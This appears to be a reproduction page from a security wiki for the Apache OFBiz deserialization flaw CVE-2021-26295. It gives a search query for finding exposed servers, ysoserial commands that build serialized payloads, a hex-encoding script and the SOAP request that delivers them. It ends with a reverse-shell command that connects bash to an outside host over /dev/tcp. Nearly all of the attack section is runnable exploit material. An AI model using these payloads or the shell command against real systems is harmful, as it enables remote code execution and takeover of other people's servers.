 ```yaml
---
Title: Apache OFBiz RMI deserialization vulnerability CVE-2021-26295
---
```


# Apache OFBiz RMI deserialization vulnerability CVE-2021-26295

## Vulnerability Description

OFBiz is a Java-based web framework that includes an entity engine, a service engine, and a widget-based UI.

Recently, Apache OFBiz officially released a security update. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache OFBiz < 17.12.06</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGVfT0ZCaXoi">app="Apache_OFBiz"</a-button>
</a-checkbox>

## Vulnerability reappears

Use `ysoserial` to generate deserialized data

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS https://xxx.xxx.xxx.xxx > payload.txt
```

```python
#!/usr/bin/python
#conding=utf8
import binascii
with open('payload.txt', 'rb') as payload_handle:
   content = payload_handle.read()
str_hex = binascii.hexlify(content)
print(str_hex)
```

Check Dnslog verification vulnerability after sending the request packet

```
POST /webtools/control/SOAPService 

<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="https://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><test:clearAllEntityCaches xmlns:test="https://ofbiz.apache.org/service/"><test:cus-obj>dnslog反序列化数据</test:cus-obj></test:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>
```

Rebound Shell can use `ROME deserialization chain`

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,xxxxxxxxxxxxxxxxxxxxxxx}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'   base64加密写入然后执行命令
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/c3afc0d1-7dc6-4161-a0fd-901797bf1a31.png)